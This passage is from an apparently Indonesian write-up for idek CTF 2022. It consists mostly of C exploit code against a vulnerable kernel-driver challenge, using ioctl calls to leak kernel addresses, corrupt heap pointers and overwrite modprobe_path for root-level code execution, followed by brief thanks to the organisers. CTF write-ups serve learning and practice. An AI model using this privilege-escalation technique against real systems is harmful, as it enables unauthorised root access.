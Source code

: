 ```c
    int a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "BBBB", CHUNK_SIZE); 
    a = ioctl(global_fd, 0xdeadbeef, &data);   
    strncpy(data.buffer, "CCCC", CHUNK_SIZE);  
    a = ioctl(global_fd, 0xdeadbeef, &data);
    a = ioctl(global_fd, 0x1337, &data);

    unsigned long long *p = &data.buffer;
    data.idx = 0;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak0 = p[CHUNK_SIZE / 8 - 1];
    data.idx = 2;
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak1 = p[CHUNK_SIZE / 8 - 1];
    printf("0x%llx 0x%llx\n", leak0, leak1);

    data.idx = 2;
    unsigned long long fake = leak1 + 0x100;
    
    p[CHUNK_SIZE / 8 - 1] = fake;
    p[0] = 0x43434343;
    a = ioctl(global_fd, 0xbabecafe, &data);
    strncpy(data.buffer, "DDDD", CHUNK_SIZE);
    a = ioctl(global_fd, 0xdeadbeef, &data);
    p[0] = 0x45454545;
    a = ioctl(global_fd, 0xdeadbeef, &data);

    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = leak0 + 0x400;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    a = ioctl(global_fd, 0xcafebabe, &data);
    for (int i = 0; i < CHUNK_SIZE / 8; i ++){
        printf("0x%llx\n", p[i]);
    }
    unsigned long long modprobe_path = p[7] + 0x629ce0;
    printf("0x%llx\n", modprobe_path);


    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = modprobe_path-0x10;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    strncpy(data.buffer, "AAAAAAAA/tmp/x\x00", CHUNK_SIZE);
    a = ioctl(global_fd, 0xbabecafe, &data);
    get_flag();

    // After that you cat /tmp/flag

    return 0;
}
```

### Akhir kata
Terima kasih idek telah mengadakan CTF yang luar biasa! Hasil yang sedikit tidak dinyangka, tetapi setelah 48 tryhard tim pjsk berhasil menang!

Semoga CTF idek 2023 sama tingkat kualitasnya!

